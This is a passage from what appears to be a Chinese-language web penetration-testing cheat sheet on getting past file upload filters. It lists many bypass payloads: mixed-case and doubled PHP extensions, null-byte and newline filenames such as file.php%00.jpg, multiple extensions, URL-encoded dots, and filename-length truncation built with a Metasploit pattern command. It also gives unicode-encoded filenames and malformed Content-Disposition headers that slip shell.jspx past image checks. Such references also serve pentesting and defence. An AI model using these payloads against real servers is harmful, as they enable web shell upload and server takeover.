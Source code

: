     </TabItem>
    <TabItem value="Erlang Yaws Web Server" label="Erlang Yaws Web Server" default>
        ```bash
        .yaws
        ```
    </TabItem>
    </Tabs>
2. 大小写/双写/混写文件后缀
   ```bash
   file.php
   file.PhpHpp
   ```
3. 加点/空字节/换行符/#
   ```bash
   ../file.php
   file.php.
   file.php%00
   file.php%00.jpg
   file.php%0a.jpg
   file.php\n.jpg
   file.php
   .jpg
   file.php#.jpg
   ```
4. 多重扩展名
   ```bash
   .php.jpg
   .jpg.php
   ```
5. 对点、正斜杠和反斜杠使用 URL 编码（或双重 URL 编码）
   ```bash
   file%2Ephp
   ```
6. 利用文件长度限制 : 当文件名过长时, 服务端会忽略超过部分的字符
   ```bash
   # Linux maximum 255 bytes
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
   Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
   # Upload the file and check response how many characters it alllows. Let's say 236
   python -c 'print "A" * 232'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   # Make the payload
   AAA<--SNIP 232 A-->AAA.php.png
    ```
7. 扩展手段
   ```bash
   filename===="shell.jspx.jsp1"（加等号）
   filename=\u0073\u0068\u0065\u006c\u006c\u002e\u006a\u0073\u0070  # 文件名字编码（filename一般为后端接收参数，编码了可能识别不到，这个就看情况）
    ```
8. 上传其他后缀文件, 比如 `exe`
9. 上传中间件的配置文件或者同名文件进行覆盖操作

### HTTP Header
1. Content-Disposition 的魔改
    ```bash
    Content-Disposition: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa form-data; name="file"; filename=shell.jpg;filename=shell.jspx; # 溢出绕过

    Content-Disposition:
    form-data; name="file"; filename=shell.jpg;filename=shell.jspx; # 回车换行绕过（注意不要把固定字段打散了，）

   ```